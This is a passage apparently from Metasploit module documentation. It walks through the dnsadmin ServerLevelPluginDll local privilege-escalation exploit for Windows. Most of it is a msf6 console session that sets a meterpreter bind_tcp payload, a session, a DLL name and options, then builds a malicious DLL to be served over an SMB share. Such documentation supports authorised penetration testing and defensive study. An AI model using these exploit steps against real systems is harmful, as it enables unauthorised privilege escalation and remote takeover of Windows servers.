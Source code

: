 This will create a SMBv2 server, listening on IP address 172.17.168.195, with a share named `test`, that will be sharing the contents of
the directory at `/home/gwillcox/.msf4/local/`. Next, set `MAKEDLL` to `true` and run the module to generate the payload.

```
msf6 exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
[*] Using configured payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 3 
SESSION => 3
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 6688
LPORT => 6688
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME mp4.dll
DLLNAME => mp4.dll
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set MAKEDLL true
MAKEDLL => true
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > show options

Module options (exploit/windows/local/dnsadmin_serverlevelplugindll):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   AVTIMEOUT  60               yes       Time to wait for AV to potentially notice the DLL file we dropped, in seconds.
   DLLNAME    mp4.dll          yes       DLL name (default: msf.dll)
   DLLPATH    %TEMP%           yes       Path to DLL. Can be a UNC path. (default: %TEMP%)
   MAKEDLL    true             yes       Just create the DLL, do not exploit.
   SESSION    3                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6688             yes       The listen port
   RHOST     172.17.169.123   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Building DLL...
[+] mp4.dll stored at /home/gwillcox/.msf4/local/mp4.dll
[*] Started bind TCP handler against 172.17.169.123:6688
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > 
```
